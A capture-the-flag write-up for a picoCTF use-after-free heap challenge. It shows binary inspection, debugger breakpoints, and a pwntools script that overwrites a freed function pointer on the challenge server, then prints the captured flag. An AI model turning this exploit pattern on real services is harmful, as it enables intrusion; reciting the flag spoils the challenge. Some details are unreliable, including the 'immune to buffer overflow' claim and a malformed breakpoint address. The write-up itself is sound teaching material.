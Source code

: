 From the challenge name, we infer that this challenge is based on UAF, i.e, user after free

Use-After-Free (UAF) is a vulnerability related to incorrect use of dynamic memory during program operation. If after freeing a memory location, a program does not clear the pointer to that memory, an attacker can use the error to hack the program.

First step is to do file and check the file type

```bash
$ file vuln    
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=89699d062dc4f47448ba7c5c03105267c060ce30, not stripped
```

The “not stripped” at the end indicates that that the debugging symbols and other debugging-related information have not been removed or stripped from the binary file.

So we can check the debugging related info by using checksec

```bash
$ checksec --file=vuln 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   103 Symbols	  No	0		4		vuln
```

Stack canary is found and NX is enabled, this indicates that the executable is immune to buffer overflow, i,e, shell code can’t be injected.

```python
void s(){
	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
	puts("Thanks for subscribing! I really recommend becoming a premium member!");
}
```

- %p prints out the address of the function hahaexploitgobrrr

- User is a struct object, memory is allocated for the object using malloc.

- As a result, whatToDo pointer and username pointer are created and stored.

- Then,when this memory is freed, the same memory is allocated to malloc.

- Once we receive the address of hahaexploitgobrr, we have to pass it as message. Since, the same pointer is pointing to all functions, once we make a twitter account the whatToDo pointer is created and space is allocated for the function in user, now once this user is deleted when we do I, that space is freed, and the same pointer points for a different function but to the same area. Since, after we pass in our message, i.e, the function 

- The pointer created by obj user, whatToDO basically points to a memory location in and the message is written in the same memory location as the function pointer in the object, i.e, the message is written instead of the function pointer once the message is entered, because it’s a free chunk, once the memory is called, the doProcess dereferences whatever is there at whatToDo pointer which thus calls the hahaexploitgobrrr function

  - Here is demonstration of heap being allocated deallocated and reallocated
  - So open the exe file in ghidra to get the breakpoints

- break point 1 in main(), where we allocate storage to user `b*0x08048d6f`
- break point 2 in i(), when we free the storage `b *0x08048afff`
- breakpoint 3 where it is reallocated for message `b*0x08048a61`

- Now running it with the breakpoints in gef
- We can see that address is saved in eax at 0x0804c1a0
- We can also see that all the tcache bins are empty by doing heap bin
- We now create account and see that myname is stored at so and so position. Now, we free the memory, click c to continue and enter I. We can see that the user buffer is freed and is in the tcache bin. Once we select message, we see that the bins are empty, this means that memory is allocated to message now
- now, pressing c and continuing. It says segmentation fault, this is because it tries to dereference whatever we enter. So we pass address of hahaexploitgobrrr as message. To collect the read value we need a pwnscript as this cant be done on terminal
- here is a simple pwnscript
```python
from pwn import *
p = remote("mercury.picoctf.net",4504)
context.log_level='debug'
p.sendlineafter(b'(e)xit',b'M')
p.sendlineafter(b':',b'myname')
p.sendlineafter(b'(e)xit',b'S')
p.recvuntil(b'OOP! Memory leak...', drop=True)

leak = int(p.recvlineS(),16)

info("leaked hahaexploitgobrrr() add: %#x",leak)

p.sendlineafter(b'(e)xit',b'I')
p.sendlineafter(b'?',b'Y')
p.sendlineafter(b'(e)xit',b'L')
p.sendlineafter(b':',flat(leak))
p.interactive()
```

So now, on running this,
We see the flag
```bash
[*] Switching to interactive mode

[DEBUG] Received 0x22 bytes:
    b'picoCTF{d0ubl3_j30p4rdy_4245f637}\n'
picoCTF{d0ubl3_j30p4rdy_4245f637}
```

**FLAG - `picoCTF{d0ubl3_j30p4rdy_4245f637}`**

